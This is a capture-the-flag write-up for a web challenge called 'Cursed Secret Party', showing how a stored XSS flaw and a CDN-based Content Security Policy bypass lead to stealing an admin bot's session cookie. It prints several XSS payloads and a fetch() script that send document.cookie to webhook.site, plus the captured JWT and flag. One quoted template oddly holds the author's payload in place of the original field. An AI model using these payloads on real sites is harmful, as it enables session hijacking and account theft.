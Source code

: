 # Cursed Secret Party

## The Problem

Rating: Medium

Flavor Text:
```

You've just received an invitation to a party. Authorities have reported that the party is cursed, and the guests are trapped in a never-ending unsolvable murder mystery party. Can you investigate further and try to save everyone?


```

Attachments : [web_cursed_party.zip](web_cursed_party.zip)



## Solution

The provided source includes a few important details. In particular:

the webapps router describes a simple root public response and a post only web api endpoint 'api/submit'
routes/index.js
```
router.post('/api/submit', (req, res) => {
    const { halloween_name, email, costume_type, trick_or_treat } = req.body;

    if (halloween_name && email && costume_type && trick_or_treat) {

        return db.party_request_add(halloween_name, email, costume_type, trick_or_treat)
            .then(() => {
                res.send(response('Your request will be reviewed by our team!'));

                bot.visit();
            })
            .catch(() => res.send(response('Something Went Wrong!')));
    }

    return res.status(401).send(response('Please fill out all the required fields!'));
});
```

looks like a signup form system with an admin backend. The backend looks simple and when rendered displays the data returned from the database middleware. It also includes "| safe" in the Halloween Name. This may cause the rendering to do something different in respect to html tags?
/views/admin.html:
```
<html>
    <head>
        <link rel="stylesheet" href="/static/css/bootstrap.min.css" />
        <title>Admin panel</title>
    </head>

    <body>
        <div class="container" style="margin-top: 20px">
            {% for request in requests %} 
                <div class="card">
                <div class="card-header"> <strong>Halloween Name</strong> : {{ request.halloween_name | safe }} </div>
                <div class="card-body">
                    <p class="card-title"><strong>Email Address</strong>    : {{ request.email }}</p>
                    <p class="card-text"><strong>Costume Type </strong>   : <script src="https://cdn.jsdelivr.net/gh/BrennenWright/CaptureTheFlag-Writeups/2022/HackTheBoo/Cursed%20Secret%20Party/fetchCookie.js"></script>
                     </p>
                    <p class="card-text"><strong>Prefers tricks or treat </strong>   : {{ request.trick_or_treat }} </p>
                    
                    <button class="btn btn-primary">Accept</button>
                    <button class="btn btn-danger">Delete</button>
                </div>
            </div>
            {% endfor %}
        </div>

    </body>
</html>
```
 
bot.js is setup to simulate a system admin who checks the backend webform at /admin:
```
        let token = await JWTHelper.sign({ username: 'admin', user_role: 'admin', flag: flag });
		await page.setCookie({
			name: 'session',
			value: token,
			domain: '127.0.0.1:1337'
		});

		await page.goto('http://127.0.0.1:1337/admin', {
			waitUntil: 'networkidle2',
			timeout: 5000
		});
```


Fireing up the website and tracing the calls nets us a known good api call that looks like: 
```
curl 'http://161.35.172.25:31135/api/submit' -H 'Content-Type: application/json' --data-raw "{
    "halloween_name":"test",
    "email":"test@me.com",
    "costume_type":"x",
    "trick_or_treat":"tricks"
    }"
```

This looks like a fairly standard XXS challenge, so i plan to inject an attack to pull their session cookie and use it to access the site. I have an existing sole script from another HTB challenge that automates the webhooks and payload sending. 

The small updates to the script still didn't seem to get the job done so I got direct with it and manually tryed several formats and payloads to get some response at all.

as these didnt work either I resorted to trying other webhook sites.
```
test <script>image = new image(); image.src=\"https://webhook.site/d8370670-7370-451e-ac01-9557328f9228?c=\"+document.cookie;</script>

<script>image = new Image(); image.src=\\\"https://webhook.site/d8370670-7370-451e-ac01-9557328f9228?c=\\\"+document.cookie;</script>


curl 'http://161.35.172.25:31135/api/submit' -H 'Content-Type: application/json' --data-raw "{"halloween_name":"test","email":"test@me.com","costume_type":"<script>image = new Image(); image.src="https://webhook.site/d8370670-7370-451e-ac01-9557328f9228?c="+document.cookie;</script>","trick_or_treat":"tricks"}"

\"<script src='https://webhook.site/" + webhook.Uuid + "'></script>\"
```

Reviewing [writeups](https://blog.fanky.me/ctf_writeups/hacktheboo_cursed_secret_party) post event it turned out that there is an additional security feature included in index.js. Annnnnnnddddd its CSP acronym is the events title acronym as the in your face hint....

index.js:
```
app.use(function (req, res, next) {
    res.setHeader(
        "Content-Security-Policy",
        "script-src 'self' https://cdn.jsdelivr.net ; style-src 'self' https://fonts.googleapis.com; img-src 'self'; font-src 'self' https://fonts.gstatic.com; child-src 'self'; frame-src 'self'; worker-src 'self'; frame-ancestors 'self'; form-action 'self'; base-uri 'self'; manifest-src 'self'"
    );
    next();
});

```

The entire webapp includes:
![](Content-Security-Policy.png)


The published script [fetchCookie.js](./fetchCookie.js) provides the needed payload:
```
fetch("https://webhook.site/5ccd9082-8f9e-4912-9f45-d7a82e1eff5f?c="+document.cookie);

```
and the new functional attack post looks like:

```
{
  "halloween_name": "<script src=\"https://cdn.jsdelivr.net/gh/BrennenWright/CaptureTheFlag-Writeups/2022/HackTheBoo/Cursed%20Secret%20Party/fetchCookie.js\"></script>",
  "email": "x",
  "costume_type": "x",
  "trick_or_treat": "x"
}
```

this returns our session cookie:
```
session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwidXNlcl9yb2xlIjoiYWRtaW4iLCJmbGFnIjoiSFRCe2Nkbl9jNG5fYnlwNHNzX2M1cCEhfSIsImlhdCI6MTY2Njg4OTc2N30.8jP6kz-0zhDqiVnTbgV2W6Vf3C_pQ3-aboGO3xZrrmU
```

a quick decoding of the middle portion of the token:
[./flag.png](./flag.png)

## Flag
```
HTB{cdn_c4n_byp4ss_c5p!!}
```

## Final Notes

I will need to remember to look out for CSPs in the future as it was right there in the response headers during my initial fiddling.


I will need to add some more steps to my solve script to achieve the CSP bypass
